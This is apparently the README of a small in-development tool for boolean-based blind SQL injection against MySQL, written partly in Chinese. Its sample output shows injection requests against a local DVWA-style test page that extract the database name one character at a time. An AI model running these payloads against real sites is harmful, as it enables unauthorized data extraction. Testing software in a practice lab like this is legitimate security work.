 # Ksql - Blind SQL Injection

------

自己想的一种方式写出来的SQL注入检测的小工具
目前还在开发中，仅增加了Mysql基于布尔类型的盲注检测功能
    
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="p
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="q
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="r
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="s
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="t
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="u
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="v
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="w
    ['firstName: admin']
    w
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="a
    ['firstName: admin']
    a
    database:  dvwa
    
